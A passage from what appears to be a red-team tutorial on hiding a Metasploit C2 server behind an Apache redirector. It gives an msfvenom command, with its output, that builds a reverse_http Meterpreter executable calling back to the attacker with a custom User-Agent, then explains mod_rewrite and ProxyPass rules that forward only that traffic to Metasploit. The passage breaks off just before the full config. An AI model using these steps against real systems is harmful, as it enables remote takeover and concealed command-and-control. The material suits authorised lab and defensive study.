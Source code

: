 ```
root@kali$ msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload[-] No arch selected, selecting arch: x86 from the payloadNo encoder specified, outputting raw payloadPayload size: 454 bytesFinal size of exe file: 73802 bytesSaved as: shell.exe
```

After generating the modified executable and transferring it to a victim, open up Wireshark on your host and use the `HTTP` filter to only view HTTP requests. After it's started capturing packets, execute the binary on the victim system. You will notice an HTTP request come in with our modified User-Agent.

![](https://miro.medium.com/v2/resize:fit:1400/0*P6nzbf_h-HIfo0eD.png)

_Packet Capture of the modified HTTP Payload with Meterpreter_

Now that we have a field we can control in the HTTP Request, let’s create an Apache2 mod\_rewrite rule that filters on the user agent “NotMeterpreter” and forward it to our Metasploit C2 Server.

**Modifying the Apache Config File -**

This section may sound intimidating but is actually quite easy; we will be taking the default Apache config and modifying it to our advantage. On Debian based systems, the default config can be found at `/etc/apache2/sites-available/000-default.conf`.

**Default Apache2 Config**

```
root@kali$  cat /etc/apache2/sites-available/000-default.conf  | grep -v '#'<VirtualHost *:80>        ServerAdmin webmaster@localhost        DocumentRoot /var/www/html        <Directory>                AllowOverride All        </Directory>        ErrorLog ${APACHE_LOG_DIR}/error.log        CustomLog ${APACHE_LOG_DIR}/access.log combined</VirtualHost>
```

Now that we have a general idea of the Apache2 Config file is structured, we must add a few lines to the config file to enable the Rewrite Engine, add a rewrite condition, and lastly, pass through the Apache 2 Proxy. This sounds fairly complex, but it’s quite simple.

To enable the [Rewrite Engine](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html), we must add `RewriteEngine On` onto a new line in the VirtualHost section.

Now we will be using a Rewrite Condition targeting the HTTP User-Agent. For a complete list of HTTP Request Targets, see the [mod\_rewrite documentation](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html) on Apache.org. Because we only want to match the User-Agent “NotMeterpreter”, we need to use some basic Regular Expressions to capture this; adding a ^ signals the beginning of a string and a $ at the end of the series, giving us with “^NotMeterpreter$”. This Regex will **only** capture the NotMeterpreter User-Agent. We can add this line `RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"` to our config to (as previously stated) only allow HTTP Requests with the NotMeterpreter user agent to access Metasploit.

Lastly, we must forward the request through Apache2, through our proxy, to Metasploit. To do this, we must use the ProxyPass feature of Apache’s [mod\_proxy module](https://httpd.apache.org/docs/2.4/howto/reverse_proxy.html). To do this, we just need to specify the base URI that the request will be forwarded to (in our case, we just need “/”), and the target we want to forward the request to. This **will** vary from setup to set up, but this IP Address will be your C2 server. In the lab scenario, it will be localhost and port that Metasploit is listening on. This will give us a full config file that looks like so:
